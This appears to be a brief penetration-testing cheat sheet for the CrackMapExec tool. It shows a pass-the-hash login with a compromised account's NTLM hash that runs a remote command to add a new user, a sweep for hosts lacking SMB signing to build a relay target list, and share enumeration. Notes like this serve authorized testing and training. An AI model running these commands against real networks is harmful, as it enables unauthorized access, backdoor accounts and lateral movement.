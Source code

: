<!-- TITLE: Crackmapexec -->
<!-- SUBTITLE: A quick summary of Crackmapexec -->

# Common CME Runs
## How to execute commands
```text
./crackmapexec.py smb 192.168.10.25 -d . -u compromiseduser -H aad3LMPORTION04eeaad3b435b51404ee:729bb174dNTLMPORTION2f6cd816f377 -x 'net user summit ae2rpw4U!! /add'  
```

## Find Hosts that don't require signing
```
crackmapexec.py smb 192.168.10.0/24 --gen-relay-list targets2
```

## Show me the shares on the network
```
crackmapexec.py smb hostnames.txt --shares
```
